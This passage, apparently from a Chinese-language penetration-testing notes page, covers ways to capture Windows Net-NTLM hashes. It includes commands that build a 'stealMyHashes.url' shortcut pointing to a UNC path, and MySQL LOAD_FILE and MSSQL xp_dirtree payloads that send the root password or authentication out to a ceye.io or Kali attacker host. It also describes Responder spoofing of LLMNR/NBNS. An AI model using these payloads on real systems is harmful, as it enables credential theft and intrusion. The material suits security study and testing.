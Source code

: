 **Internet Shortcuts (.url)**

Windows 中的另一个快捷方式是 Internet 快捷方式，你可以将下面这个存储为 .url 文件：
```
echo [InternetShortcut] > stealMyHashes.url
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

## 通过 web 漏洞

- xxe

  在 xxe 里面加载外部文件的时候，如果路径支持 unc 路径的话，是能拿到 net-ntlm hash 的。

  如果不支持 UNC，可再测试 http 协议。

- ssrf

  在 ssrf 里面如果支持 file 协议，并且 file 协议能加载远程资源的话，是能拿到 net-ntlm hash 的。

  当只支持 HTTP 协议的时候，也是可能打回 net-ntlm hash 的。

- XPath Injection
- 远程文件包含
- SQL Injection
  - MySQL
    在 MySQL 注入的话，可以通过带外通信把数据带出来
    ```
    SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.xxx.ceye.io\\abc'));
    ```
    需要具备 loadfile 权限，且没有 securefile_priv 的限制 (5.5.53 默认是空，之后的话默认为 NULL 就不好利用了, 不排除一些管理员会改)

    LOAD_FILE 是支持 UNC 路劲,构造
    ```
    select load_file('\\\\<Kali address>\\mysql');
    ```
  - mssql

    或者配合 mssql
    ```
    xp_dirtree "\\<Kali address>\aaa.com"
    ```

## 通过错误域名获取hash

Responder 还有通过 http 协议来骗取 hash 值的功能，由于 win7 默认会尝试通过 LLMNR、NBNS 协议解析域名，那么 win7 输入错误域名后会被欺骗并解析到 kali，随后 responder 会要求 NTLM 认证，受害机器就会发送 hash 值。

需要交互获取 hash 值,进行下测试，开启 responder、win7 打开 ie 浏览器访问一个不存在的域名

chrome 在开启 WPAD 设置时也会默认被欺骗(默认开启),firefox不会有这个问题
